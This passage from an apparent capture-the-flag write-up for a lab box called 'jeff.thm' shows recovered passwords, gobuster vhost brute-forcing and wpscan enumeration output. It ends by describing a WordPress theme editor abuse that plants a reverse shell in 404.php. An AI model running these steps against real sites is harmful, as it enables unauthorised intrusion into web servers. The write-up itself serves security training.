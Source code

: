 ```
PASSWORD FOUND!!!!: pw == !!Burningbird!!
```

And unzipping it we got a file named `wpadmin.bak `

```
wordpress password is: phO#g)C5dhIWZn3BKP
```

# vhosts bruteforcing

gobuster vhost -u jeff.thm --wordlist /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-20000.txt

```bash
Found: wordpress.jeff.thm (Status: 200) [Size: 25901]
```

Investigating `jeff.thm`. /backups gives us only one entry `jeff.thm`.And `/uploads` looks like it redirects only and nothing happens. I moved onto `wordpress.jeff.thm`.

# Wpscan

wpscan --url http://wordpress.jeff.thm -e ap,at,u,dbe

```bash
[+] WordPress theme in use: twentytwenty
 | Location: http://wordpress.jeff.thm/wp-content/themes/twentytwenty/
 | Last Updated: 2021-03-09T00:00:00.000Z
 | Readme: http://wordpress.jeff.thm/wp-content/themes/twentytwenty/readme.txt
 | [!] The version is out of date, the latest version is 1.7
[+] twentynineteen
 | Location: http://wordpress.jeff.thm/wp-content/themes/twentynineteen/
 | Last Updated: 2021-03-09T00:00:00.000Z
 | Readme: http://wordpress.jeff.thm/wp-content/themes/twentynineteen/readme.txt
 | [!] The version is out of date, the latest version is 2.0
[+] twentyseventeen
 | Location: http://wordpress.jeff.thm/wp-content/themes/twentyseventeen/
 | Last Updated: 2021-04-27T00:00:00.000Z
 | Readme: http://wordpress.jeff.thm/wp-content/themes/twentyseventeen/readme.txt
 | [!] The version is out of date, the latest version is 2.7
[+] jeff
 | Found By: Author Posts - Display Name (Passive Detection)
 | Confirmed By:
 |  Rss Generator (Passive Detection)
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)
```

We have an username jeff and we already have a password. We can login now as jeff! i used twentyseventeen theme editor and updated 404.php with our reverse shell and called `http://wordpress.jeff.thm/wp-content/themes/twentyseventeen/404.php` and got a shell as www-data.
